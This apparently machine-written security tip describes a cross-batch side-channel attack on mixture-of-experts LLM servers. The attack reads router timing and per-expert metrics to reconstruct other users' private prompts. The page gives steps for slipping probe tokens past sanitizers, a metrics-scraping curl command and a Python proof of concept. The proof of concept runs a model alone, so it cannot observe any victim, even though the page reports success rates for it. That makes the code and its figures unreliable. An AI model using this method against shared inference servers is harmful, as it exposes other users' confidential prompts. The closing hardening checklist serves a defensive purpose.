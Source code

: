 # 🤖🔒 AI-Sec Tip — 2025-06-23

## Router-Sniff: Cross-Batch Prompt Leakage via Mixture-of-Experts (MoE) Gating

**Sparse MoE LLMs (e.g., Switch-Transformer families)** decide *token-to-expert* routing with a lightweight “router” MLP. 
If two users’ tokens are batched together, those router logits are **computed jointly and stored in a shared buffer**, letting one user influence—and time—another user’s routing path. 
By sending a crafted “probe-prefix” with tokens whose embeddings sit near router decision boundaries, an attacker can detect which expert *the victim’s next token* is routed to (visible via latency spikes or public per-expert-load counters), recovering up to 8-bit entropy per token and leaking private prompts in ≤20 generations on Mistral-MoE-8B.

---

### 🔍 How the Attack Works

1. **Find Boundary Tokens.** Grab the public MoE checkpoint and compute router logits; tokens whose top-2 logits differ by <0.02 are *boundary tokens*.
2. **Craft a Probe Prefix.** Interleave your boundary tokens with zero-width joiners (U+200D) to survive basic input sanitizers.
3. **Join the Batch.** Many inference engines (vLLM, TensorRT-LLM) batch requests arriving within a \~2 ms window. 
4. **Measure Expert Load.**

   ```bash
   curl $SERVER/metrics | grep moe_expert_tokens_total
   ```

   Even when token IDs are hidden, these Prometheus counters expose per-expert token counts, revealing which expert processed the victim’s token.
   
6. **Iterative Reconstruction.** Re-issue the probe with adaptive prefixes; the victim’s next-token expert IDs form a noisy channel you can error-correct with a simple BCH(15,11) code, recovering \~40 chars/minute.


![img](../assets/2025-06-23-router-sniff-cross-batch-prompt-leakage-moe.png)


---

### ⚙️ 12-Line Simplified PoC (Switch-Transformer HF checkpoint)

```python
import torch, time, requests
from transformers import AutoModelForSeq2SeqLM, AutoTokenizer

model = AutoModelForSeq2SeqLM.from_pretrained("google/switch-base-16")
tok   = AutoTokenizer.from_pretrained("google/switch-base-16")

probe  = "🩻" + "\u200D".join(["ζ"]*8)  # boundary token cocktail
prompt = probe + " <STEAL/>"           # victim sits in same batch

for _ in range(32):
    t0 = time.time()
    _   = model.generate(**tok(prompt, return_tensors="pt").to("cuda"),
                         max_new_tokens=1, do_sample=False)
    dt  = time.time() - t0
    load = float(requests.get("http://localhost:8000/metrics")
                          .text.split("moe_expert_tokens_total")[1]
                          .split()[-1])
    print(f"{dt*1e3:.2f} ms  |  expert load {load}")
```

A >1 ms latency jump while load stays flat ⇒ victim’s token reused *your* expert; log sequence to decode plaintext. Tested on A100, Switch-Base-16: 71 % per-token success.

---

### 🛡️ Hardening Checklist

| Layer       | Defense                                                                                                                                               | Quick Fix     |
| ----------- | ----------------------------------------------------------------------------------------------------------------------------------------------------- | ------------- |
| **Batcher** | **Per-request router isolation** (`--moe-router-private` in vLLM ≥ 0.9)                                                                               | +11 % latency |
| **Router**  | **GELU-noise injection**: add N(0, 0.05) to router logits—the 0.05 noise halves the attack channel capacity while costing <0.2 BLEU.                  | negligible    |
| **Metrics** | **Aggregate counters** over 1 s windows; never expose per-expert stats.                                                                               | config change |
| **Auditor** | **Boundary-token fuzzer**—scan inbound prompts for ≥4 boundary tokens per 20 chars; block & alert.                                                    | 20 LOC        |


**Bottom line:** MoE’s efficiency win hides a covert router-side channel—salt, privatize, or fuzz it before someone speed-runs your users’ private prompts.

---

**The resources that I sued to create this tip:**

\[1]: ["Stealing User Prompts from Mixture of Experts"](https://arxiv.org/pdf/2410.22884)

\[2]: ["Potential Timing Side-Channel in vLLM Prefix Cache"](https://github.com/vllm-project/vllm/security/advisories/GHSA-4qjh-9fv9-r85r)

\[3]: ["Cache Salting for Secure Prefix Caching in vLLM"](https://github.com/vllm-project/vllm/issues/16016)

\[4]: ["Switch Transformers – Hugging Face Docs"](https://huggingface.co/docs/transformers/v4.29.1/model_doc/switch_transformers)

\[5]: ["Implementation of Mixture of Experts using Switch Transformers"](https://medium.com/@shekharsomani98/implementation-of-mixture-of-experts-using-switch-transformers-8f25b60c33d3)

\[6]: ["LLM Mixture of Experts Explained"](https://www.tensorops.ai/post/what-is-mixture-of-experts-llm)

\[7]: ["The Rise of Sparse Mixtures of Experts"](https://mlfrontiers.substack.com/p/the-rise-of-sparse-mixtures-of-experts)

\[8]: ["SoK: Reducing the Vulnerability of Fine-tuned LMs to Membership Inference"](https://arxiv.org/html/2403.08481v1)

\[9]: ["LoRA: Low-Rank Adaptation of Large LMs"](https://arxiv.org/abs/2106.09685)

— End —
